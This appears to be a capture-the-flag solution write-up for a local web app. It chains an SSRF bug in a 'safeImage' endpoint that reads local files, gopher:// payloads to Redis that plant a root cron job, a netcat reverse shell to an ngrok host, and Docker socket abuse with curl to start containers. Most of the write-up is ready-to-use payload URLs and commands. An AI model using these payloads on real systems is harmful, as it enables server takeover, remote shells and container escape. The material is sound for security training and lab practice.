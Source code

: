 # Solution

1.  Check out the source.  

```
<!-- 
    
    TODO: 
        * Move redis to it's own server.
        * Update the docker server status page.
        * fix some "safeImage" rendering bugs
    -->
```

Now we know there is redis on the server.  We know this is inside of a docker container and we know there are a few bugs around `safeImage`.

2. view-source:http://localhost:5000/safeImage/?url=file:///proc/self/cmdline
3. You can see the application
  ```view-source:http://localhost:5000/safeImage/?url=file:///app/app.py```
4. You have arbitrary write 

  Add a redis "value" with a payload for a cron job: (I am using 0.tcp.ngrok.io as my call back you should change this to your callback box) 

  ```http://localhost:5000/safeImage/?url=gopher://127.0.0.1:6379/_set%20x%20%22%5Cn%5Cn*/1%20*%20*%20*%20*%20nc%200.tcp.ngrok.io%3A15967%20-e%20/bin/sh%5Cn%5Cn%22```

  Set the redis config to write the DB to /var/spool/cron/crontabs/ 

  ```http://localhost:5000/safeImage/?url=gopher://127.0.0.1:6379/_config%20set%20dir%20/var/spool/cron/crontabs/```

  Set the file name to "root"

  ```http://localhost:5000/safeImage/?url=gopher://127.0.0.1:6379/_config%20set%20dbfilename%20root```

  Call redis "save"

  ```http://localhost:5000/safeImage/?url=gopher://127.0.0.1:6379/_save```

5. Run your local reverse shell listener ```nc -l 1337```
6. use the docker.sock file and CURLto get information about the containers: 
   ```curl --unix-socket /var/run/docker.sock http:/v1.24/containers/json```
7. Bring up the service (replace with the containter ids from above)
  ```curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/a9968f67f75bb073f1f37b2d5c83579d77a0c22f642fc0e27c9a0c3d6cb65685/start```
